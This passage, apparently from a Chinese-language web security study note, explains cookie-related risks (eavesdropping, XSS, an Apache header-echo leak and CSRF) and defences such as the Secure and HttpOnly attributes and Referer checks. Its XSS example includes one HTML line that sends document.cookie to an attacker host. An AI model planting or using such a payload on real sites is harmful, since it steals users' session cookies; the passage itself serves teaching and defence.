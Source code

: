 如果⼀个⽹站使用 cookie作为会话标识符，攻击者可通过窃取cookie来冒充⽤户发起请求。对这些安全问题简单介绍如下：



#### ⽹络窃听

网络上的流量可以被⽹络上任何计算机拦截，在未加密的情况下，攻击者可以读取包含HTTP Cookie的全部内容，以进行中间攻击。⽐如：拦截 cookie来冒充用户身份执行恶意任务。

服务器可设置`secure`属性的cookie，只能通过HTTPS的方式来发送 cookie。



#### XSS

当⽹站允许使用 javascript操作cookie的时候，就会发生攻击者发布恶意代码进行攻击。

简单举例：

```html
<a href="#" onclick="location.href='http://a.com?cookie='+document.cookie">click</a> 
```

点击后，这个⽹站⽤户的 cookie信息就会被发送到`a.com`——攻击者的服务器。、

可以通过cookie的`HttpOnly`属性，设置后javascript将不能操作 cookie。

> Apache HTTP Server 2.2.X 多个版本没有严格限制HTTP请求头信息，当头信息超过 LimitRequestFieldSize ⻓度时，服务器返回 400(Bad Request) 错误，并在返回信息中将出错的请求头内容输出(包含请求头里的HttpOnly Cookie )，攻击者可以利用这个漏洞获取Cookie。 



#### CSRF

是⼀种冒充受信任⽤用户，向服务器发送⾮预期请求的攻击⽅式。

攻击原理理及过程如下：

![CSRF](./images/image-20190418204335052.png)

可以有以下应对方法：

1. 验证 HTTP Referer，首部包含了当前请求⻚面的来源⻚面的地址。

   在以下两种情况下， Referer 不会被发送：

   - 来源⻚面采用的协议为表示本地文件的 "file" 或者 "data" URI；
